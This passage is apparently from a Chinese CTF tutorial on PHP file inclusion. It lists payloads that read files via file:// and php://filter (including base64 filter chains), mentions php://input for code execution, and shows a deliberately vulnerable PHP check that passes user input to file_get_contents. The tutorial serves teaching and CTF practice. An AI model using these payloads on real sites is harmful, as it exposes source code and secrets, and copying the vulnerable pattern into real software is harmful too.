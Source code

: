 ```cobol
?file=file:///d:\phpstudy_pro\WWW\flag.txt
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b6e7120d9d417b5a36afe47ce609f33c.png" alt="" style="max-height:250px; box-sizing:content-box;" />


### php:// 协议

php协议有很多

这里给出常用的

```cobol
php://filter： 用于读源码
 
 
php://input： 用于执行php代码
```

#### php://filter

这在ctf中 很多都是使用 这个 就可以读取源代码

```cobol
?file=php://filter/resource=flag.txt
无过滤的读取  直接返回全部
 
?file=php://filter/read=string.toupper/resource=flag.txt
 
通过设置read的值 来返回读取的内容
 
 
 
?file=php://filter/convert.base64-encode/resource=flag.txt
 
通过base64加密后 flag的内容
 
?file=php://filter/read=string.toupper|convert.base64-encode/resource=flag.txt
 
通过 大写 并且 base64加密
```

#### php://input

需要 allow_url_include 为on

```php
<?php
$user = $_GET["user"];
$pass = $_GET["pass"];
if(isset($user)&&(file_get_contents($user,'r')==="123123")){
    echo "hello admin!<br>";
}else{
    echo "you are not admin ! ";
}
?>
```

